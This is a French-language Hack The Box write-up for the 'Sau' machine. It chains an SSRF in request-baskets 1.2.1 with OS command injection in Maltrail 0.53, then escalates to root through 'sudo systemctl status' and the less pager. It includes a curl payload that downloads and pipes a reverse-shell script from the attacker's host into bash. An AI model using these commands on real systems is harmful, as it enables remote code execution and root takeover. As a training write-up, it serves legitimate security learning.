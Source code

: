 +++
title = "HTB - Sau"
date = "2024-01-09"
author = "Brainmoustache"
authorTwitter = "BrainMoustache" #do not include @
cover = ""
tags = ["hackthebox", "sau", "ssrf", "command injection", "gtfobins"]
keywords = ["", ""]
description = "Resume of Sau from Hackthebox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Sau

## Enumeration:
Nmap
```bash
Nmap scan report for 10.129.167.17
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION      
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown           
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 19:23:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close       
|     Request     
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|     Content-Length: 27    
|     href="/web">Found</a>.        
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|_    Content-Length: 0
```

## User exploit
Il y a deux vulnérabilités a exploiter afin d'obtenir un shell en tant que `User`.
Dans un premier temps `request-baskets v1.2.1` est vulnérable a une faille de type SSRF (Server Side Request Forgery). 

> Une faille de type SSRF permet d'effectuer des requêtes malicieuses par l'entremise du server Web vers un endroit arbitraire.

Cette vulnérabilité se situe dans les endpoints de l'API suivants au niveau du paramètre `forward_url`.
- /api/baskets/{name}
- /baskets/{name}

Lorsque le `Basket` est créé, il est possible de modifier ledit paramètre et d'y inséré une adresse IP locale. 

### Code vulnérable
- https://github.com/darklynx/request-baskets/tree/v1.2.1
```go
// https://github.com/darklynx/request-baskets/blob/a36e2ae402204050ce42a78d750785b4b10e7958/baskets.go#L18C1-L25C2

// BasketConfig describes single basket configuration.
type BasketConfig struct {
	ForwardURL    string `json:"forward_url"`
	ProxyResponse bool   `json:"proxy_response"`
	InsecureTLS   bool   `json:"insecure_tls"`
	ExpandPath    bool   `json:"expand_path"`
	Capacity      int    `json:"capacity"`
}
```
```go
// https://github.com/darklynx/request-baskets/blob/9e4107228f6b409ccd3c3d7371b0e0fd5a5798a1/baskets.go#L152

func (req *RequestData) Forward(client *http.Client, config BasketConfig, basket string) (*http.Response, error) {
	forwardURL, err := url.ParseRequestURI(config.ForwardURL)
	if err != nil {
		return nil, fmt.Errorf("invalid forward URL: %s - %s", config.ForwardURL, err)
	}

	// expand path
	if config.ExpandPath && len(req.Path) > len(basket)+1 {
		forwardURL.Path = expandURL(forwardURL.Path, req.Path, basket)
	}

	// append query
	if len(req.Query) > 0 {
		if len(forwardURL.RawQuery) > 0 {
			forwardURL.RawQuery += "&" + req.Query
		} else {
			forwardURL.RawQuery = req.Query
		}
	}
[...]
```
Lorsque le lien du panier est visité, la vulnérabilité est activée. 

Basé sur le résultat du scan nmap, il est possible de constater qu'une application est active sur le port `8338/tcp` mais que le trafic est filtré.
Il est donc possible d'effectuer des requêtes vers cette application grâce à la SSRF. Quelques requêtes suffises afin d'identifier que l'application active est `mailtrail`.

![[/content/img/htb/request_baskets_proxy_configuration.png]]

La version du logiciel est `Mailtrail (v0.53)`. Cette version est vulnérable a une exécution de code au niveau du système d'exploitation (OS Command injection).

> Une vulnérabilité de type OS Command injection permet de faire exécuter du code arbitraire par le système d'exploitation. 

La vulnérabilité se situe au niveau de la fonction `subprocess.check_output` dans le paramètre `params.get("username")` dans le fichier `mailtrail/core/http.py`. 

```python
if not IS_WIN:
    try:
        subprocess.check_output(["logger", "-p", "auth.info", "-t", "%s[%d]" % (NAME.lower(), os.getpid()), "%s password for %s from %s port %s" % ("Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1])], stderr=subprocess.STDOUT, shell=False)
    except Exception:
        if config.SHOW_DEBUG:
            traceback.print_exc()

return content
```
En combinant les deux vulnérabilités, il est possible d'obtenir un accès utilisateur sur la boxe.

```bash
#!/bin/bash

curl -k 'http://10.129.153.197:55555/qp9dxnt' --data 'username=;`/bin/curl 10.10.14.113/rev.sh | bash`'
```
User --> puma
## Root exploit
L'utilisateur `puma` a la permission d'exécuter une commande avec des droits de super utilisateur 

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Voici une explication de la vulnérabilité

> *A vulnerability was found in the systemd package. The systemd package does not adequately block local privilege escalation for some Sudo configurations, for example, plausible sudoers files, in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This issue presents a substantial security risk when running systemctl from Sudo because less executes as root when the terminal size is too small to show the complete systemctl output.*

En effectuant plusieurs requêtes vers le service `Maltrail`, `pager`, un binaire qui permet de visionner du contenu au niveau d'un terminal Linux sera exécuté.

`sudo /usr/bin/systemctl status trail.service`

`pager` pointe vers le binaire `less`. En exécutant la commande `!sh`, on obtient un shell en tant que `root`.

![[/content/img/htb/systemctl_status_less_lpe.png]]

## Resources:

| Hyperlink                                                        | Info                           |
| ---------------------------------------------------------------- | ------------------------------ |
| https://notes.sjtu.edu.cn/s/MUUhEymt7                            | Exploit request-baskets v1.2.1 |
| https://github.com/advisories/GHSA-58g2-vgpg-335q                | Exploit request-baskets v1.2.1 |
| https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ | Exploit MailTrail v0.53        |
| https://bugzilla.redhat.com/show_bug.cgi?id=2175611              | Exploit systemctl              |
| https://gtfobins.github.io/gtfobins/systemctl/                   | GTFObins                       |